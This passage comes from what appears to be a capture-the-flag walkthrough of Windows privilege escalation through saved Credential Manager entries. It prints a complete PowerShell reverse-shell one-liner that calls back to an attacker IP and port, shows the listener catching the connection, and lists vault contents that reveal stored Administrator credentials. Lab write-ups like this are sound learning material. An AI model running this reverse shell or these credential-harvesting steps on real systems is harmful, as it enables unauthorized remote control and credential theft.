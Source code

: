 ### Priv esc with Windows Credentials Manager

Our `security` user doesn't have any useful privileges or group memberships. That telnet shell was pretty slow and buggy. I tried running PowerShell but I wasn't getting any output from the shell so instead of spawned a reverse shell with Nishang:

```
C:\Users\security>powershell -command "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.23',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

```
listening on [any] 4444 ...
connect to [10.10.14.23] from (UNKNOWN) [10.10.10.98] 49159

PS C:\Users\security> whoami
access\security
PS C:\Users\security>
```

```
PS C:\Users\security> vaultcmd /list
Currently loaded vaults:
	Vault: security's Vault
	Vault Guid:{4BF4C442-9B8A-41A0-B380-DD4A704DDB28}
	Location: C:\Users\security\AppData\Local\Microsoft\Vault\4BF4C442-9B8A-41A0-B380-DD4A704DDB28
	Status: Unlocked
	Visibility: Not hidden

	Vault: Windows Vault
	Vault Guid:{77BC582B-F0A6-4E15-4E80-61736B6F3B29}
	Location: C:\Users\security\AppData\Local\Microsoft\Vault
	Status: Unlocked
	Visibility: Not hidden
```

Administrator credentials saved in security user's vault:

```
PS C:\Users\security> vaultcmd /listcreds:"Windows Vault"
Credentials in vault: Windows Vault

Credential schema: Windows Domain Password Credential
Resource: Domain:interactive=ACCESS\Administrator
Identity: ACCESS\Administrator
Property (schema element id,value): (100,3)
```

I tried using [https://github.com/peewpw/Invoke-WCMDump](Invoke-WCMDUmp) to retrieve the plaintext credentials but that tool only works for "Generic" type credentials.

So instead I just transferred netcat to the machine and popped a shell this way:
